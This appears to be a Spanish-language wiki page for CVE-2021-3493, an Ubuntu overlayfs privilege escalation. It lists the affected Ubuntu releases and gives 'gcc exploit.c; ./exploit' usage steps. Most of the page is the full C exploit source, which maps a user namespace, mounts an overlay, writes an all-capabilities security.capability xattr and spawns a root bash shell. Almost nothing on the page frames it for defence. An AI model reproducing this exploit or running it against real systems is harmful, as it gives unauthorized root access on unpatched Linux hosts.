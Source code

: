 <languages   />

Versión afectada
----------------

    Ubuntu 20.10
    Ubuntu 20.04 LTS
    Ubuntu 18.04 LTS
    Ubuntu 16.04 LTS
    Ubuntu 14.04 ESM

    Fixed in Linux 5.11

Capturas de pantalla
--------------------

[800px](FIle:2021-04-21_16.24.30.jpg "wikilink")

Usar tutorial
-------------

    gcc exploit.c -o exploit
    chmod +x exploit
    ./exploit

EXP
---

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <err.h>
    #include <errno.h>
    #include <sched.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/wait.h>
    #include <sys/mount.h>

    //#include <attr/xattr.h>
    //#include <sys/xattr.h>
    int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


    #define DIR_BASE    "./ovlcap"
    #define DIR_WORK    DIR_BASE "/work"
    #define DIR_LOWER   DIR_BASE "/lower"
    #define DIR_UPPER   DIR_BASE "/upper"
    #define DIR_MERGE   DIR_BASE "/merge"
    #define BIN_MERGE   DIR_MERGE "/magic"
    #define BIN_UPPER   DIR_UPPER "/magic"


    static void xmkdir(const char *path, mode_t mode)
    {
        if (mkdir(path, mode) == -1 && errno != EEXIST)
            err(1, "mkdir %s", path);
    }

    static void xwritefile(const char *path, const char *data)
    {
        int fd = open(path, O_WRONLY);
        if (fd == -1)
            err(1, "open %s", path);
        ssize_t len = (ssize_t) strlen(data);
        if (write(fd, data, len) != len)
            err(1, "write %s", path);
        close(fd);
    }

    static void xcopyfile(const char *src, const char *dst, mode_t mode)
    {
        int fi, fo;

        if ((fi = open(src, O_RDONLY)) == -1)
            err(1, "open %s", src);
        if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
            err(1, "open %s", dst);

        char buf[4096];
        ssize_t rd, wr;

        for (;;) {
            rd = read(fi, buf, sizeof(buf));
            if (rd == 0) {
                break;
            } else if (rd == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "read %s", src);
            }

            char *p = buf;
            while (rd > 0) {
                wr = write(fo, p, rd);
                if (wr == -1) {
                    if (errno == EINTR)
                        continue;
                    err(1, "write %s", dst);
                }
                p += wr;
                rd -= wr;
            }
        }

        close(fi);
        close(fo);
    }

    static int exploit()
    {
        char buf[4096];

        sprintf(buf, "rm -rf '%s/'", DIR_BASE);
        system(buf);

        xmkdir(DIR_BASE, 0777);
        xmkdir(DIR_WORK,  0777);
        xmkdir(DIR_LOWER, 0777);
        xmkdir(DIR_UPPER, 0777);
        xmkdir(DIR_MERGE, 0777);

        uid_t uid = getuid();
        gid_t gid = getgid();

        if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
            err(1, "unshare");

        xwritefile("/proc/self/setgroups", "deny");

        sprintf(buf, "0 %d 1", uid);
        xwritefile("/proc/self/uid_map", buf);

        sprintf(buf, "0 %d 1", gid);
        xwritefile("/proc/self/gid_map", buf);

        sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
        if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
            err(1, "mount %s", DIR_MERGE);

        // all+ep
        char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

        xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
        if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
            err(1, "setxattr %s", BIN_MERGE);

        return 0;
    }

    int main(int argc, char *argv[])
    {
        if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
            setuid(0);
            setgid(0);
            execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
            err(1, "execl /bin/bash");
        }

        pid_t child = fork();
        if (child == -1)
            err(1, "fork");

        if (child == 0) {
            _exit(exploit());
        } else {
            waitpid(child, NULL, 0);
        }

        execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
        err(1, "execl %s", BIN_UPPER);
    }

Github
------

<https://github.com/briskets/CVE-2021-3493>